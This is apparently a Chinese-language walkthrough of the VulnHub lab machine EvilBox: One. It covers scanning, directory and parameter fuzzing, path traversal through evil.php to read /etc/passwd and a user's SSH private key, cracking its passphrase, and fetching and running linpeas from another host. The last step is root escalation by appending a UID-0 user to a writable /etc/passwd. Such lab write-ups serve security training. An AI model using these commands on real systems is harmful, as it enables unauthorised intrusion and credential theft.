


## 复盘*

## 靶机地址

[EvilBox: One ~ VulnHub](https://www.vulnhub.com/entry/evilbox-one,736/)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```



确定靶机ip：

192.168.1.6


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.1.6 -oA ./nmapscan/ports
```

开放了：

- 22 ssh
- 80 http


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sV -sC -O -p 22,80 192.168.1.6 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 7.9p1 
- 80  http Apache httpd 2.4.38


### 80端口

#### 访问192.168.1.6


apache主页

查看源码无内容


#### dirsearch目录扫描

```
dirsearch -u http://192.168.1.6
```


得到：

- robots.txt
- secret


#### 访问robots.txt


可能是用户名


#### 访问secret


无内容


#### 尝试dirsearch目录扫描

```
dirsearch -u http://192.168.1.6/secret/
```


无结果


#### 利用gobuster进行目录扫描

```
gobuster dir -w /home/ra1n3/dic/Dir/directory-list-2.3-medium.txt -x txt,php -u http://192.168.1.6/secret/
```


存在evil.php


#### 访问evil.php


同样无内容

判断是木马文件

```
evil：邪恶
```


#### 利用wfuzz爆破参数

```
wfuzz -w /home/ra1n3/dic/Common/common.txt -u http://192.168.1.6/secret/evil.php?FUZZ=../../../../../../../../../../../../../etc/passwd --hh 0
```


得到参数：command


#### 访问http://192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../etc/passw


得到用户信息：

- mowree


#### 尝试读取其私钥文件

访问

[192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa](view-source:http://192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa)


#### wget保存

```
wget 192.168.1.6/secret/evil.php?command=../../../../../../../../../../../../../home/mowree/.ssh/id_rsa -O id_rsa
cat id_rsa
```


### 22端口

#### 尝试ssh登录

```
ssh mowree@192.168.1.6 -i id_rsa
```


需要密码


#### 利用RSAcrack爆破

```
RSAcrack -w /home/ra1n3/dic/Passwd/rockyou.txt -k id_rsa
```


得到密码

- unicorn


#### ssh登录


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 执行sudo -l

```
sudo -l
```



无sudo


### suid文件查找

```
find / -perm -4000 2>/dev/null
```


### 上传linepas.sh

```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


/etc/passwd文件可写


### 利用openssl生成密码

```
openssl passwd 123
```


### 追加root用户

```
echo 'rain:$1$7.Wj0zOv$mHTwgjXMJjWzxIvu1FsVZ/:0:0:root:/root:/bin/bash'>>/etc/passwd
su rain
```


### 得到第二个flag

```
cd /root
ls
cat root.txt
```


